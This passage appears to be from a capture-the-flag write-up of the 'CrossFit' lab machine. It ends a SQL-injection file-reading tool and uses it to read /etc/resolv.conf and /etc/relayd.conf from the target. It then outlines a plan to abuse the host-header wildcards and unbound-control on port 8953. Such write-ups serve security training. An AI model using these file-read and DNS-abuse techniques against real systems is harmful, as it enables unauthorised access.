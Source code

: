 ```py
        file_content = response['debug'][17:-1]
        print(file_content)


Read_SQLI().cmdloop()
```

Since we know that unbound dns is running on the machine the `/etc/resolv.conf` might have some interesting information. Retrieving it we see the machine is looking up dns locally.

```
sm1l3z > read_file /etc/resolv.conf
lookup file bind
#nameserver 8.8.8.8
nameserver 127.0.0.1
```

Looking up the `/etc/relayd.conf` we can also retrieve the specific rules for dns-lookup. Interestingly here are the wildcards being used. This means if we send a request with a host header of `{random}employees.crossfit.htb` to the server it will try to look it up with unbound dns. To abuse this the resolving has to happen on our machine, which means we have to interact with the `unbound-control`  on port `8953`.

```
sm1l3z > read_file /etc/relayd.conf
table<1>{127.0.0.1}
table<2>{127.0.0.1}
table<3>{127.0.0.1}
table<4>{127.0.0.1}
http protocol web{
        pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
        pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
        match request path "/*" forward to <1>
        match request path "/ws*" forward to <4>
        http websockets
}

table<5>{127.0.0.1}
table<6>{127.0.0.1 127.0.0.2 127.0.0.3 127.0.0.4}
http protocol portal{
        pass request quick path "/" forward to <5>
        pass request quick path "/index.html" forward to <5>
        pass request quick path "/home" forward to <5>
        pass request quick path "/login" forward to <5>
        pass request quick path "/chat" forward to <5>
        pass request quick path "/js/*" forward to <5>
        pass request quick path "/css/*" forward to <5>
        pass request quick path "/fonts/*" forward to <5>
        pass request quick path "/images/*" forward to <5>
        pass request quick path "/favicon.ico" forward to <5>
        pass forward to <6>
        http websockets
}

relay web{
        listen on "0.0.0.0" port 80
        protocol web
        forward to <1> port 8000
        forward to <2> port 8001
        forward to <3> port 9999
        forward to <4> port 4419
}

relay portal{
        listen on 127.0.0.1 port 9999
```